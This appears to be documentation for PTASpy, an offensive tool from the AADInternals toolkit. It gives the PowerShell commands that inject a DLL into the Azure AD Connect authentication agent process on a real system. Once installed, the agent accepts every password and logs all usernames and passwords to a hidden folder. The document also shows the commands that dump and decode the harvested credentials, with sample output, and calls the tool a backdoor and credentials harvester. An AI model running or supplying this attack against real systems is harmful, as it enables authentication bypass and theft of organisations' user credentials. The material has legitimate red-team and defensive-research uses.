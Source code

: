 What PTASpy installation does:

* Creates a hidden folder C:\PTASpy
* Copies a PTASpy.dll to C:\PTASpy
* Injects PTASpy.dll to AzureADConnectAuthenticationAgentService process

When installed, PTASpy:

* Accepts all passwords
* Saves all user names and passwords to C:\PTASpy\PTASpy

To install PTASpy, run the following command on the computer running AAD Connect or stand-alone authentication agent.
{{< highlight powershell >}}
# Install PTASpy
Install-AADIntPTASpy
{{< /highlight>}}

The installation asks you to confirm the installation. To continue, type YES and press enter. 
```
Are you sure you wan't to install PTASpy to this computer? Type YES to continue or CTRL+C to abort:
```

If installation is successful, you should see the following:
```
Installation successfully completed!
All passwords are now accepted and credentials collected to C:\PTASpy\PTASpy.csv
```
**Note!** If the installation fails, this is probably due to missing <a href="https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe" target="_blank">Microsoft Visual C++ 2015 Redistributables</a>.

Now whenever someone tries to log in, any password is accepted and saved to the log. As such, PTASpy can be used as a backdoor and credentials harvester.

Now you can dump the passwords:
{{< highlight powershell >}}
# Dump the login credentials
Get-AADIntPTASpyLog
{{< /highlight>}}
```
UserName          Password                                                         Time               
--------          --------                                                         ----               
user1@company.com YQBzAGQAZgBkAHMAZgA=                                             03/04/2020 12.17.03
user2@company.com TQB5ACAAdgBlAHIAeQAgAHMAZQBjAHIAZQB0ACAAcABhAHMAcwB3AG8AcgBkAA== 16/07/2020 7.55.14 
```
Passwords are Base64 encoded Unicode text. To show the decoded passwords:
{{< highlight powershell >}}
# Dump the login credentials
Get-AADIntPTASpyLog -DecodePasswords
{{< /highlight>}}
```
UserName          Password                Time               
--------          --------                ----               
user1@company.com asdfdsf                 03/04/2020 12.17.03
user2@company.com My very secret password 16/07/2020 7.55.14 
```
